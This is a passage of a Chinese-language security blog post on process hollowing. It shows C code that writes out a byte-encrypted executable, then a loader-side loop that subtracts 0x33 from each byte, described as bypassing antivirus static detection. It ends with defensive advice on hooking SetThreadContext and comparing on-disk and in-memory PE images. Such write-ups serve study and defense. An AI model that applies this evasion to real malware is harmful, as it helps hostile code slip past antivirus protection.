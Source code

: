 ```
        0
    );
    if (hFile2 == INVALID_HANDLE_VALUE)
    {
        printf("Create file error\n");
        CloseHandle(hFile2);
        return 0;
    }
    WriteFile(hFile2,pBuffer2,dwSize,&dwSize,NULL);
    CloseHandle(hFile2);
    return 0;
}
```

输出新的加密文件HelloWorld.exe，不会被静态查杀

ProcessHollowing工程添加一个解密操作，逐字符作0x33减，关键代码如下：

```
DWORD dwSize = GetFileSize(hFile, 0);
PBYTE pBuffer = new BYTE[dwSize];
PBYTE pBuffer2 = new BYTE[dwSize];
DWORD dwBytesRead = 0;
ReadFile(hFile, pBuffer2, dwSize, &dwBytesRead, 0);
for(DWORD i=0;i<dwSize;i++)
{
    pBuffer[i]=pBuffer2[i]-0x33;
}
```

至此，完成静态查杀的绕过

**注：**

ProcessHollowing.exe行为拦截的绕过，本文暂不介绍

## 0x04 防御检测

这种傀儡进程的利用，由于最开始创建了正常的进程，因此欺骗性很高

例如创建傀儡进程calc.exe,进程的图标和描述都是正常的calc.exe，数字签名也正常

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-30/4-1.png)

**防御方法：**

1. 使用杀毒软件，拦截函数SetThreadContext
2. 参考原文给出的建议，使用RogueKiller，对比PE文件在本地和内存之间是否有区别

RogueKiller下载地址：

https://www.adlice.com/download/roguekiller/

检测如下图
